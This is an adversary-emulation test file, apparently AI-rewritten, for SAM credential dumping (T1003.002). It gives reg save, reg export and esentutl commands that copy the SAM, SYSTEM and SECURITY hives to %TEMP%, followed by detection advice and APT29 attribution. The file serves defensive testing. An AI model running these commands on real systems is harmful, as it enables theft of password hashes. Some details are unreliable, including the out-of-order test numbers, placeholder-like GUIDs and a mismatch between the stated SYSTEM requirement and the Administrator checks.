




Here's the rewritten file for T1003.002 in the requested format:

# T1003.002 - OS Credential Dumping: Security Account Manager

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/002/)
<blockquote>
Adversaries may attempt to extract credential material from the Security Account Manager (SAM) database either through in-memory techniques or through the Windows Registry where the SAM database is stored. The SAM is a database file that contains local accounts for the host, typically those found with the <code>net user</code> command. Enumerating the SAM database requires SYSTEM level access.

A number of tools can be used to retrieve the SAM file through in-memory techniques:
* pwdumpx.exe
* gsecdump
* Mimikatz
* secretsdump.py

Alternatively, the SAM can be extracted from the Registry with Reg:
* <code>reg save HKLM\sam sam</code>
* <code>reg save HKLM\system system</code>

Credential material can be extracted from the SAM database either through in-memory techniques or through the Windows Registry where the SAM database is stored. (Citation: Wikipedia Security Account Manager)
</blockquote>

### Attack Technique Overview
OS Credential Dumping from the Security Account Manager (SAM) involves adversaries extracting local account credentials from the SAM database. APT29 (Russian state-sponsored) extensively uses this technique to obtain password hashes for lateral movement, privilege escalation, and persistence within compromised environments.



## Atomic Tests

- [Atomic Test #1 - Registry dump of SAM, creds, and secrets](#atomic-test-1---registry-dump-of-sam-creds-and-secrets)
- [Atomic Test #8 - Dumping of SAM, creds, and secrets (Reg Export)](#atomic-test-8---dumping-of-sam-creds-and-secrets-reg-export)
- [Atomic Test #3 - esentutl.exe SAM copy](#atomic-test-3---esentutlexe-sam-copy)

<br/>

## Atomic Test #1 - Registry dump of SAM, creds, and secrets
Uses reg save to extract SAM, SYSTEM, and SECURITY hives. APT29 has extensively used this technique during operations like SolarWinds for credential extraction.

**Supported Platforms:** Windows

**auto_generated_guid:** 1a2b3c4d-5e6f-7a8b-9c0d-1e2f3a4b5c6d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_dir | Directory to save registry hives | path | %TEMP% |

#### Attack Commands: Run with `command_prompt`! 
```cmd
reg save HKLM\sam #{output_dir}\sam
reg save HKLM\system #{output_dir}\system
reg save HKLM\security #{output_dir}\security
```



**Command Explanation:**
```cmd
reg save HKLM\sam %TEMP%\sam
reg save HKLM\system %TEMP%\system  
reg save HKLM\security %TEMP%\security
```
- **reg save**: Legitimate Windows registry utility
- **HKLM\sam**: Contains local account credentials and password hashes
- **HKLM\system**: Contains system boot key needed to decrypt SAM
- **HKLM\security**: Contains LSA secrets and security policies
- **%TEMP%**: Temporary directory to avoid suspicion

APT29 used this exact methodology during SolarWinds to extract credentials for lateral movement within victim networks.

#### Dependencies: Run with `powershell`!
##### Description: Requires SYSTEM privileges
##### Check Prereq Commands:
```powershell
$currentPrincipal = New-Object Security.Principal.WindowsPrincipal([Security.Principal.WindowsIdentity]::GetCurrent())
if ($currentPrincipal.IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) { exit 0 } else { exit 1 }
```

<br/>

## Atomic Test #8 - Dumping of SAM, creds, and secrets (Reg Export)
Uses reg export as alternative to reg save for registry hive extraction. APT29 employs multiple methods for the same objective.

**Supported Platforms:** Windows

**auto_generated_guid:** 8a7b6c5d-4e3f-2a1b-0c9d-8e7f6a5b4c3d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_dir | Directory to save registry hives | path | %TEMP% |

#### Attack Commands: Run with `command_prompt`! 
```cmd
reg export HKLM\sam #{output_dir}\sam.reg
reg export HKLM\system #{output_dir}\system.reg  
reg export HKLM\security #{output_dir}\security.reg
```



**Command Explanation:**
```cmd
reg export HKLM\sam %TEMP%\sam.reg
reg export HKLM\system %TEMP%\system.reg
reg export HKLM\security %TEMP%\security.reg
```
- **reg export**: Alternative registry export command
- **.reg files**: Text-based registry export format
- **Same target hives**: SAM, SYSTEM, and SECURITY for credential extraction
- **Different extension**: .reg files instead of binary hive files

APT29 uses this alternative method to potentially evade detection mechanisms focused on reg save operations.

#### Dependencies: Run with `powershell`!
##### Description: Requires SYSTEM privileges
##### Check Prereq Commands:
```powershell
$currentPrincipal = New-Object Security.Principal.WindowsPrincipal([Security.Principal.WindowsIdentity]::GetCurrent())
if ($currentPrincipal.IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) { exit 0 } else { exit 1 }
```

<br/>

## Atomic Test #3 - esentutl.exe SAM copy
Uses esentutl.exe to copy SAM database file. APT29 employs living-off-the-land techniques using alternative utilities.

**Supported Platforms:** Windows

**auto_generated_guid:** 3c2b1a0d-9e8f-7a6b-5c4d-3e2f1a0b9c8d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Local output filename | path | %TEMP%\SAM |

#### Attack Commands: Run with `command_prompt`! 
```cmd
esentutl.exe /y /vss %SystemRoot%\system32\config\SAM /d #{output_file}
```



**Command Explanation:**
```cmd
esentutl.exe /y /vss %SystemRoot%\system32\config\SAM /d %TEMP%\SAM
```
- **esentutl.exe**: Legitimate Windows Extensible Storage Engine utility
- **/y**: Copy file stream mode (normally for database maintenance)
- **/vss**: Uses Volume Shadow Copy Service to access locked files
- **System32\config\SAM**: Direct file system location of SAM database
- **/d**: Destination parameter for output file

APT29 uses this technique to bypass file locking mechanisms and avoid detection focused on registry operations.

#### Dependencies: Run with `powershell`!
##### Description: Requires SYSTEM privileges and esentutl.exe
##### Check Prereq Commands:
```powershell
# Check privileges
$currentPrincipal = New-Object Security.Principal.WindowsPrincipal([Security.Principal.WindowsIdentity]::GetCurrent())
if (-not $currentPrincipal.IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) { exit 1 }

# Check esentutl availability
if (Get-Command esentutl.exe -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

## Defender Recommendations

Based on these tests, defenders should:

1. **Monitor for registry operations** targeting sensitive hives (HKLM\sam, HKLM\system, HKLM\security)
2. **Detect unusual file creation** - registry hive files in temp directories or unusual locations
3. **Monitor esentutl.exe usage** for copying files from system32\config directory
4. **Implement application control** to restrict unnecessary utilities from non-admin users
5. **Use behavioral detection** for processes accessing SAM database locations
6. **Monitor for SYSTEM account activities** involving registry or file system access to security objects

## Correlation with APT29

**APT29 Focus:**
- Living-off-the-land techniques (reg.exe, esentutl.exe)
- Multiple methods for same objective (defense evasion)
- Registry-based credential extraction (SAM, SYSTEM, SECURITY hives)
- Used for lateral movement and persistence in operations like SolarWinds

**Tactical Objectives:**
- Credential Access: Extract local account password hashes
- Lateral Movement: Enable pass-the-hash attacks
- Persistence: Maintain access through local account compromise  
- Privilege Escalation: Gain higher-level access through credential theft

## Campaign References
1. **APT29 SolarWinds Campaign** (2020): Used SAM and LSA secrets dumping to extract credentials for lateral movement
2. **APT29 COVID-19 Vaccine Targeting** (2020): Employed credential dumping techniques to gain access to research networks
3. **Various APT29 Operations**: Consistently demonstrated advanced credential access capabilities including SAM database extraction

## Academic References
1. MITRE ATT&CK Technique T1003.002 - OS Credential Dumping: Security Account Manager
2. Microsoft: "NOBELIUM targeting IT supply chain" (2021)
3. US-CERT: "Russian SVR Activities" (APT29 TTPs)
4. CrowdStrike: "APT29 Targets COVID-19 Vaccine Development" (2020)
5. FireEye: "APT29 Domain Fronting With TOR" (2017)

## Detection Recommendations

* **SIEM Rules**: Alert on reg.exe save/export operations targeting HKLM\sam, HKLM\system, HKLM\security
* **EDR Monitoring**: Track unusual file creation patterns in temp directories (sam, system, security files)
* **Registry Monitoring**: Detect access to sensitive SAM database locations
* **Process Monitoring**: Identify esentutl.exe copying files from system32\config
* **Behavioral Analysis**: Detect unusual SYSTEM account activities involving registry operations
* **File Integrity Monitoring**: Watch for registry hive files in non-standard locations
* **Privilege Monitoring**: Alert on non-SYSTEM processes attempting to access SAM resources
